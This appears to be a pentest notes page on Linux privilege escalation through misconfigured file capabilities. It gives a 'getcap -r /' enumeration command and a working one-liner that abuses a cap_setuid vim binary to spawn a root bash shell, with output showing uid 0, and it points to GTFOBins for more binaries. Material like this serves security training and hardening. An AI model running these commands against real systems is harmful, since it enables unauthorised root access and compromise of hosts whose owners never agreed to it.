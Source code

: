 # Capabilities

Capabilities main purpose is to resemble by managing privileges. In addition, in the kernel level it has split into different categories for probable privileged kernel calls up into groups that shares functionality. If the system administrator has carelessly or accidentally configured poorly an attacker will take an advantage from the least privileges to root. Keep on a eye out on **`cap_setuid+ep`**

```
$ getcap -r / 2>/dev/null
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/ping = cap_net_raw+ep
/home/karen/vim = cap_setuid+ep
/home/ubuntu/view = cap_setuid+ep
$ /home/karen/vim -c ':py3 import os; os.setuid(0); os.execl("/bin/bash", "bash", "-c", "reset; exec bash")'
karen@debian:/home/karen/# id
uid=0(root) gid=1001(karen) groups=1001(karen)
```

Check on [GTFOBins](https://gtfobins.github.io/) depending on what binary that has **capabilities** privileges that you're looking for to exploit the misconfigured kernel privileges.

---
## References

- [Linux Privilege Escalation Using Capabilities](https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/)